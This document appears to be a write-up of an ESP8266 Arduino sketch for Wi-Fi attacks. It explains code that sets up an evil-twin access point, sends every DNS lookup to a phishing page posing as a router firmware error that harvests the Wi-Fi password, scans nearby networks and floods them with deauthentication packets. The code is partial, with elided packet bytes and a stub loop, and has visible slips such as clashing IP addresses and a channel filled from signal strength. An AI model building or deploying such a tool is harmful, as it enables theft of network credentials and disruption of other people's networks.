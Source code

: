 This code is a sketch for the ESP8266 microcontroller, implementing a Wi-Fi deauthentication attack and Evil Twin attack. The script sets up a Wi-Fi access point that masquerades as a legitimate network to capture passwords, while it can also send deauthentication packets to disrupt nearby networks. Here's a detailed explanation of its key components and functionality:
------------------------------------------------------------------------------------
1. Libraries and Definitions
#include <Arduino.h>
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>
#include <ESP8266HTTPClient.h>
----
ESP8266WiFi.h: Manages Wi-Fi connectivity for the ESP8266.
DNSServer.h: Handles DNS requests to spoof domain name resolutions.
ESP8266WebServer.h: Sets up a web server for the ESP8266.
ESP8266HTTPClient.h: Enables HTTP communications.
----------------------------------------------------------------------
2. Network Struct

typedef struct {
  String ssid;
  uint8_t ch;
  uint8_t bssid[6];
} _Network;

_Network _networks[16];
_Network _selectedNetwork;
------------------------------------
_Network: A structure holding information about a Wi-Fi network, including SSID, channel, and BSSID (MAC address).
_networks[16]: Array for storing up to 16 detected Wi-Fi networks.
_selectedNetwork: Stores the currently selected network for the Evil Twin attack.
-------------------------------------------------------
3. DNS and Web Server Setup

const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 1, 1);
DNSServer dnsServer;
ESP8266WebServer webServer(80);
-------------------------------------------------------------------
Configures a DNS server to resolve all requests to a local IP, tricking connected clients into thinking they are reaching the real network.
Sets up a web server on port 80 to host the phishing webpage.
-------------------------------------------------------------------
4. HTML Pages and Responses
The header, footer, and index functions generate HTML content for the phishing pages. The index page mimics a "router firmware update" error page, prompting the user to enter their Wi-Fi password.

header(String t): Generates the HTML header.
footer(): Creates the footer of the webpage.
index(): Creates the form where users input their Wi-Fi password.
------------------------------------------------------------------------
5. Setup Function

void setup() {
  Serial.begin(115200);
  WiFi.mode(WIFI_AP_STA);
  wifi_promiscuous_enable(1);
  WiFi.softAP("Evil-TwiN", "devil2in");
  dnsServer.start(53, "*", IPAddress(192, 168, 4, 1));
  pinMode(EvilTwinPin, OUTPUT);
  digitalWrite(EvilTwinPin, HIGH);

  webServer.on("/", handleIndex);
  webServer.on("/result", handleResult);
  webServer.begin();
}
-------------------------------------
Configures the ESP8266 as an Access Point (AP) with the SSID "Evil-TwiN" and password "devil2in".
Starts a DNS server to redirect all requests to the local web server.
Sets up web routes to serve the phishing page and handle form submissions.
---------------------------------------------------------------------------------
6. Scanning Networks

void performScan() {
  int n = WiFi.scanNetworks();
  clearArray();
  for (int i = 0; i < n && i < 16; ++i) {
    _Network network;
    network.ssid = WiFi.SSID(i);
    memcpy(network.bssid, WiFi.BSSID(i), 6);
    network.ch = WiFi.RSSI(i);
    _networks[i] = network;
  }
}
-----------
Scans for available Wi-Fi networks and stores their SSID, BSSID, and signal strength in the _networks array.
-----------------------------------------------------------------------
7. Handling User Interaction

handleIndex(): Serves the main webpage, displaying the form for Wi-Fi password input.
handleResult(): Checks the submitted password. If correct, it logs the password. If incorrect, it sends an error page.
-------------------------------------------------
8. Deauthentication Attack

if (deauthing_active && millis() - deauth_now >= 1000) {
  wifi_set_channel(_selectedNetwork.ch);
  uint8_t deauthPacket[26] = {0xC0, 0x00, ... };
  wifi_send_pkt_freedom(deauthPacket, sizeof(deauthPacket), 0);
}
--
Sends deauthentication packets to kick devices off the selected network.
------------------------------------------------
9. Loop Function

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();
  if (deauthing_active) {
    // Code for sending deauth packets
  }
}
------
Continuously handles DNS requests and processes web server requests.
Executes the deauthentication attack if activated.
---------------------------
"This code was developed by myself as part of a project involving Wi-Fi security exploration. While I wrote the code, I also conducted research online to better understand the technical aspects of deauthentication attacks, Evil Twin attacks, and Wi-Fi programming on the ESP8266. Several resources, tutorials, and documentation were consulted during the development process to ensure proper implementation and optimization."
